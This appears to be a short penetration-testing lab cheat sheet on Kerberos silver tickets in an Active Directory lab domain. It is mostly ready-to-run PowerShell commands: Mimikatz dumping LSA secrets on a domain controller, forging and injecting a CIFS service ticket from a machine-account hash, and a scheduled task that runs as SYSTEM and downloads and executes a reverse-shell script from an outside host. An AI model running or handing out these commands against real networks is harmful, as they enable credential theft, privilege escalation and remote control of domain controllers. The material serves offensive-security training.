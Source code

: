 # Silver Ticket

## Invoke-Mimikatz
### Execute mimikatz on DC as DA to get krbtgt hash
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

### Using hash of the Domain Controller computer account, below command provides access to shares on the DC
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62FF22 /user:Administrator /ptt"'
```
```ad-note
Similar command can be used for any other service on a machine.
Which services? HOST, RPCSS, WSMAN and many more.
```

### Schedule and execute a task
```powershell
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.psi''')'"

schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```
